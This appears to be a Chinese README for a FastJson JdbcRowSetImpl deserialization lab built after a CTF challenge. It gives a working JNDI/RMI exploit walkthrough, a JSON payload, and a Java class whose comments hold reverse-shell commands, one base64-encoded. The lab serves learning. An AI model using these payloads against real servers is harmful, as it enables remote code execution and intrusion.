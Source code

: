 # FastJson-JdbcRowSetImpl

## 初心

### 在前不久的护网杯中出现了名为“easy_web”的一道题，利用FastJson的JdbcRowSetImpl类反序列化漏洞进行Shell。一大部分人对这道题是懵逼的，没做出来的，后面护网杯题目关闭了，因为没有此漏洞的学习环境，所以我就写了此环境，方便大家学习交流。

## 漏洞环境构建

```
root@Bearcat:/# wget "https://github.com/iBearcat/FastJson-JdbcRowSetImpl/raw/master/FastJson_Vul.war" -P path.... & cd  ${path}/opt/apache-tomcat-8.5.24/bin & ./startup.sh"
```

![20181019](https://github.com/iBearcat/FastJson-JdbcRowSetImpl/blob/master/images/1.jpg?raw=true)

### 访问漏洞环境 http://localhost:8888/FastJson_Vul

![20181019](https://github.com/iBearcat/FastJson-JdbcRowSetImpl/blob/master/images/2.jpg?raw=true)

## 漏洞利用

### 在CommandObject.java类中的commands数组中构造想要执行的命令

### 编译 javac CommandObject.java

```
import	java.lang.Runtime;
import	java.lang.Process;
public class CommandObject {
    public CommandObject(){
        try{
			Runtime	rt	=	Runtime.getRuntime();
			//Runtime.getRuntime().exec("/bin/bash -i >&/dev/tcp/192.168.43.14/2018<&1");
			//String[] commands = {"bash -c {echo,L2Jpbi9iYXNoIC1pID4mL2Rldi90Y3AvMTkyLjE2OC40My4xNC8yMDE4PCYx}|{base64,-d}|{bash,-i}"};
			
			String[] commands = {"touch","/opt/test"}; //Command
			Process	pc = rt.exec(commands);
			pc.waitFor();
        }catch(Exception e){
            e.printStackTrace();
        }
    }
    public static void main(String[] argv){
        CommandObject e = new CommandObject();
    }
}
```

![20181019](https://github.com/iBearcat/FastJson-JdbcRowSetImpl/blob/master/images/3.jpg?raw=true)

## 漏洞利用

### 开启一个HTTP服务，并且开启 RMIServer

### 如：

```
Python2 -m SimpleHTTPServer 80
Python3 -m http.server 80
```

### 生成Payload

```
java -jar FastJson_JdbcRowSetImpl_JNDI_RMIServer.jar <HTTP服务地址> 指定RMI端口
```

### FastJson_JdbcRowSetImpl_JNDI_RMIServer.jar 会生成一串Json Payload

![20181019](https://github.com/iBearcat/FastJson-JdbcRowSetImpl/blob/master/images/4.jpg?raw=true)

```
{"@type":"com.sun.rowset.JdbcRowSetImpl","dataSourceName":"rmi://192.168.43.14:6666/Object","autoCommit":true}
```

### 把它Copy到漏洞环境的input中，然后submit进行攻击。

![20181019](https://github.com/iBearcat/FastJson-JdbcRowSetImpl/blob/master/images/5.jpg?raw=true)


### 成功执行命令，并touch test

```
String[] commands = {"touch","/opt/test"}; //Command
```
![20181019](https://github.com/iBearcat/FastJson-JdbcRowSetImpl/blob/master/images/6.jpg?raw=true)

# 致谢我的好基友

### pyn3rd https://github.com/pyn3rd/CVE-2018-2893
### 背影   https://github.com/yanweijin
